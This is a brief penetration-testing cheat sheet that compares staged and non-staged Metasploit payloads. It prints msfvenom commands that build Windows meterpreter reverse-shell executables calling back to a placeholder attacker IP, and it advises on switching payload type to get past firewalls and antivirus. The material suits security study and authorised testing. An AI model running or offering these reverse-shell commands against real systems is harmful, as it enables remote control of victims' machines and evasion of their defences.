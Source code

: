    

Staged vs Non-Staged Payloads

# **Staged vs Non-Staged Payloads**

## **1. Understanding Staged and Non-Staged Payloads**

|Type|How It Works|When to Use|
|---|---|---|
|**Staged Payload**|Sends an initial small payload (stager) that downloads and executes the full payload.|Useful for large payloads or when bypassing size restrictions.|
|**Non-Staged Payload**|The full payload is sent in one go, without requiring further network communication.|Useful when stability is needed or the network might block multiple connections.|

---

## **2. Staged Payloads (`/payload/reverse_tcp`)**

- Used when memory constraints exist or when trying to evade detection.
    
- The **stager** connects to the attacker's machine, downloads the full shell, and executes it.
    
- **Example (Metasploit Reverse Shell Staged):**
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe > shell.exe
    
    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe > shell.exe
    ```
    
- If the connection is unstable, **try a non-staged payload**.
    

---

## **3. Non-Staged Payloads (`/payload/reverse_tcp_inline`)**

- The entire payload is delivered at once, meaning no second-stage download is needed.
    
- More reliable in **unstable networks** or **when staged payloads fail**.
    
- **Example (Metasploit Reverse Shell Non-Staged):**
    
    msfvenom -p windows/meterpreter_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe > shell.exe
    
    ```
    msfvenom -p windows/meterpreter_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe > shell.exe
    ```
    
- If this fails due to size limitations, **try a staged payload**.
    

---

## **4. When to Switch Payloads**

- If a **staged payload doesn't work**, the second-stage delivery might be **blocked by a firewall** → Try **non-staged**.
- If a **non-staged payload is too large**, making it hard to inject → Try **staged**.
- If the network is **unstable**, a **non-staged** payload is **less likely to break**.
- Some **antivirus and endpoint security** solutions detect staged payloads easier → **Try non-staged**.